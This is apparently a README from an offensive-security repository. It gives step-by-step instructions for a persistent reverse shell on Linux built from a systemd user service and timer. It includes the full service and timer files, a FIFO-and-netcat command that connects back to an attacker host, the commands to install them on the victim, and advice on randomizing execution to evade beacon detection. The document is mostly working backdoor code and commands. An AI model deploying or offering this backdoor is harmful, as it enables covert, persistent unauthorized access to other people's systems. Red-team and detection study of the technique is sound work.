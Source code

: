 # Scheduled Reverse Shell

## Description

This sequence of commands sets up a scheduled task, much like the better-known `cron` jobs, to execute
a reverse shell using a FIFO pipe located at `/tmp/backpipe`.

The service file (`revshell.service`) uses:

* The `Environment` directive to set up the remote host and port to connect to
* The `ExecStartPre` directive to check fo the FIFO pipe and create it if it does not exist
* The `ExecStart` directive to execute the backdoor sequence (more info on how it works located in the linked blog below)

## Additional Notes

* The `.timer` file ensures the backdoor gets re-run if the shell drops
* systemd only runs the next scheduled task if the previous task has ended
  * Avoids unnecessary logs
* Tasks will automatically run again if the backdoor ends after the next task was supposed to run
  * systemd will not wait until the timer gets scheduled again
  * e.g. 4.5 minutes after initial run on a per-minute timer

    ```txt
    [1]       [2]        [3]        [4]          [5]
    run-------skip-------skip-------skip-die-run-skip
    ```

* The `.timer` file will randomize unit execution a bit based on the `AccuracySec` and `RandomizedDelaySec` directives
  * `AccuracySec` is a measure of how accurate systemd must be when executing the associated unit.
    This is done so systemd can attempt to reduce executions that fall within the same time window.
  * `RandomizedDelaySec` randomizes the exact second at which systemd will execute the unit.
    This is done so systemd can minimize the chance many units fire at once and possibly consume too many resources.
    It's also really nice for avoiding beacon detections :)
  * The timer below will first choose a time within the `RandomizedDelaySec`, and then look for a time within `AccuracySec`
    * In reality, this unit will execute sometime between `*:56 - *:05` seconds

## Step by Step

1. Stand up listener on attacker server

```sh
nc -nlvp 4444
```

2. Generate a service file to create the backdoor on the victim

```ini
$ cat revshell.service
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell
Documentation=https://github.com/infosec-intern/sneaky-systemd-shit

[Service]
; https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
Type=simple
Environment=RHOST="10.10.10.10" RPORT="4444"
ExecStartPre=/bin/sh -c "find /tmp/backpipe || mknod --mode=0666 /tmp/backpipe p"
ExecStart=/bin/sh -c "/bin/sh 0</tmp/backpipe | /bin/nc ${RHOST} ${RPORT} 1>/tmp/backpipe"
```

3. Generate a timer file to execute the backdoor at regular intervals (every minute in our case)

```ini
$ cat revshell.timer
; https://www.freedesktop.org/software/systemd/man/systemd.timer.html
[Timer]
AccuracySec=1s
OnCalendar=*-*-* *:*:00
Unit=revshell.service
RandomizedDelaySec=4s
Persistent=true
```

4. Install into the systemd user folder on the victim

```sh
mkdir -p ~/.config/systemd/user/
ln -s `pwd`/revshell.service ~/.config/systemd/user/
ln -s `pwd`/revshell.timer ~/.config/systemd/user/
```

5. Start the scheduled task

```sh
systemctl --user start revshell.timer
```

6. Wait for the shell!

```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [${attacker}] from (UNKNOWN) [${victim}]
```
